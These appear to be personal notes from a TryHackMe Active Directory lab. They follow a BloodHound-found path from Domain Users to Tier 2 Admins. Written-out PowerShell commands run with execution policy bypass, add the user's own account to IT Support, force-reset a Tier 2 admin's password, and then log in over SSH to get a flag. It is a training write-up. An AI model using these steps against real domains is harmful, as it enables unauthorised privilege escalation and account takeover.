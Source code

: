 ```yaml
---
title: Find and Exploit Path to Tier 2 Admins
updated: 2023-04-23T22:18:46.0000000+04:00
created: 2023-04-23T21:29:31.0000000+04:00
---
```


Find and Exploit Path to Tier 2 Admins
Sunday, April 23, 2023
9:29 PM

1.  Find Path to Tier 2 Admins

Do as follows:

Add your user account as the start position and the Tier 2 Admins group as the end position.

![image1](image1-122.png)

### Bloodhound shows us a very interesting path.

1.  It seems that there was a slight bit of Permission Delegation in this domain.
2.  An administrator has misconfigured the Permission Delegation of the IT Support group by providing the Domain Users group with the AddMembers ACE.
3.  This means that any member of the Domain Users group (including our account) can add accounts to the IT Support Group.
4.  Furthermore, Bloodhound shows that the IT Support Group has the ForceChangePassword ACE for the Tier 2 Admins group members.
5.  This is not really a misconfiguration since Tier 2 admins are not that sensitive, but it provides a very potent attack path when combined with the initial misconfiguration.

Let's exploit it!

## Exploiting Path to Tier 2 Admins.

### Step 1: Add current AD account to IT Support Group

- Add-ADGroupMember PowerShell cmdlet from the AD-RSAT toolset
- Start PowerShell (either in RDP or via SSH) on the THMJMP1 host and run the following command to add your account:

| Command | Powershell -ep bypass |
|---------|-----------------------|

![image2](image2-60.png)

![image3](image3-42.png)

### Step 2: use the following command to add the desired user to the IT Support Group

| Command | Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username" |
|---------|--------------------------------------------------------------------|

### Step 3: Verify the user was added to IT Support

| Command | Get-ADGroupMember -Identity "IT Support" |
|---------|------------------------------------------|

![image4](image4-29.png)

### Step 4: Force Change Password:

Now that we are a member of the IT Support group, we have inherited the ForceChangePassword Permission Delegation over the Tier 2 Admins group.

First, we need to identify the members of this group to select a target.

#### *use the Get-ADGroupMember cmdlet again to assist with this:*

| Command | Get-AdGroupMember -Identity "Tier 2 Admins" |
|---------|---------------------------------------------|

![image5](image5-19.png)

Optional: Adding to a Text file.

![image6](image6-12.png)

### Step 5: Using Set-ADAccountPassword to Force Change Password:

We will use the Set-ADAccountPassword AD-RSAT cmdlet to force change the password:

| Command | \$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force                |
|---------|------------------------------------------------------------------------------------------------|
| Command | Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword \$Password |

![image7](image7-9.png)

### Step 6: Testing newly changed credentials for the Tier 2 Admin User:

- Log into SSH

| Command | Ssh za\\\t2_melanie.davies@thmwrk1.za.tryhackme.loc |
|---------|-----------------------------------------------------|

#### *After Entering New Password, we Successfully Login*

![image8](image8-8.png)

Step 7: Finding the Flag on the Administrator Desktop

![image9](image9-5.png)

